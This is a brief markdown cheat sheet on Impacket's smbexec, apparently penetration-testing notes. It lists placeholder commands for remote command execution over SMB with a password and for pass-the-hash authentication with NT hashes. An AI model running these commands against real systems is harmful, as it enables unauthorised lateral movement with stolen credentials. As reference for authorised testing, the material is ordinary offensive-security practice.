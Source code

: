 # SMBExec

## 01 - Impacket

- **Authenticate via impacket script with smbexec**

`$ smbexec <username>:<password>@<IP> -codecs <codec>`

- **Pass the Hash**

```
$ smbexec <username>@<IP> -hashes <LM>:<NT>

$ smbexec <domain_name>/<username>@<IP> -hashes 0000000000000000000000000000000:<NT>

$ smbexec <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<NT>
```